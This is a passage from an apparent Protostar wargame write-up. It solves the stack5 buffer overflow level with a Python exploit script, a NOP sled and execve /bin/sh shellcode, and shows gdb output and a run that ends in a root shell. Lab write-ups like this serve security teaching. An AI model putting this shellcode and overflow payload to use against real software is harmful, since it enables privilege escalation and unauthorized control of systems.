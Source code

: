 Let's edit our python script.
```python
length = 76

sled = "\x90" * 30

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" #39 bytes

print "A" * length + "\xd0\xf7\xff\xbf" + sled + shellcode
```
I got my shellcode from shell-storm.org. I used this one http://shell-storm.org/shellcode/files/shellcode-219.php as it re-opens stdin which the the gets() in this program closes. The other option would be to pipe in an empty cat after standard shellcode like `(cat stack5.txt ; cat) | ./stack5`

The other thing to note is I overwrote the EIP with 0xbffff7d0. This is the address right after the EIP that we have overwritten. I found it using gdb to find the NOP sled.

```bsh
(gdb) i r
eax            0xbffff780       -1073744000
ecx            0xbffff780       -1073744000
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7d0       0xbffff7d0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x45454545       0x45454545
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/x $esp
0xbffff7d0:     0x90909090
```
Testing it all out
```bsh
user@protostar:/tmp$ gdb -q /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) r < stack5.txt
Starting program: /opt/protostar/bin/stack5 < stack5.txt
Executing new program: /bin/dash
$ whoami
user
$ id
uid=1001(user) gid=1001(user) groups=1001(user)
$ q
/bin//sh: q: not found
$ exit

Program exited with code 0177.
(gdb) q
user@protostar:/tmp$ /opt/protostar/bin/stack5 < stack5.txt
# whoami
root
```
We got root! Damn that feels good.

## Stack 6
